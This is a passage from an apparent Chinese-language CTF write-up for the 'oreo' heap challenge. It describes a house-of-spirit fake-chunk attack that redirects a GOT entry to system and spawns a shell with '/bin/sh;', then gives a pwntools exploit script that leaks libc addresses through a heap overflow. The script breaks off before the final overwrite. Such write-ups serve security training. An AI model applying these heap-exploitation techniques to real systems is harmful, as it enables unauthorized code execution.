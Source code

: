 接着释放*last_chunk指向的fakechunk 0x804A2A8，fake chunk的SIZE通过申请0x3f次的chunk，来使其内容最后为0x41，这样就可以过SIZE检测，之后检测next chunk的SIZE，其大小可以为8到128kb之间的任意的值。

释放成功后，再次申请，并写入__isoc99_sscanf_got，__isoc99_sscanf_got的地址就被写在0x804A2A8处，调用程序Leave a Message with your Order功能，就可以将之前获得的system的地址写入0x804A2A8指向的地址内，即调用__isoc99_sscanf即调用system，结束功能时，程序会接受指令，调用的就是__isoc99_sscanf，此时传入'/bin/sh;'即可获得shell

### EXP
```python
#!/use/bin/env python
from pwn import *
import time
p = process('./oreo')
elf = ELF('./oreo')
libc = ELF('./libc')
VERBOSE = 1
DEBUG = 0

if VERBOSE:
	context.log_level = 'debug'
if DEBUG:
	gdb.attach(p)

def add(description,name):
	p.sendline('1')
	p.sendline(name)
	p.sendline(description)

def show():
	p.sendline('2')
	p.recvuntil('===================================\n')

def order():
	p.sendline('3')

def message(msg):
	p.sendline('4')
	p.sendline(msg)

def pwn():
	print 'step 1. use heap overflow to leak the addr of system and /bin/sh'
	puts_got = elf.got['puts']
	name = 'n'*27 + p32(puts_got)
	add('d'*25,name)
	show()
	p.recvuntil('Description: ')
	p.recvuntil('Description: ')
	puts_addr = u32(p.recv(4))
	log.success('puts_addr: '+hex(puts_addr))
	libc_base = puts_addr - libc.symbols['puts']
	system_addr = libc_base + libc.symbols['system']
	log.success('system_addr: '+hex(system_addr))

	print 'create a fack chunk at 0x804a2a8'
	for i in range(0,0x3f):  #make the content of 0x804a2a8 is 39
		add('d'*25,'n'*27)
	name = 'n'*27 + p32(0x804a2a8)
	add('d'*25,name)
	#payload = '\x00'*0x20 + p32(0x40)+p32(0x40)
	payload = 'a'*(0x20-0x4)+p32(0)+p32(0x40)
	message(payload)
	order()


```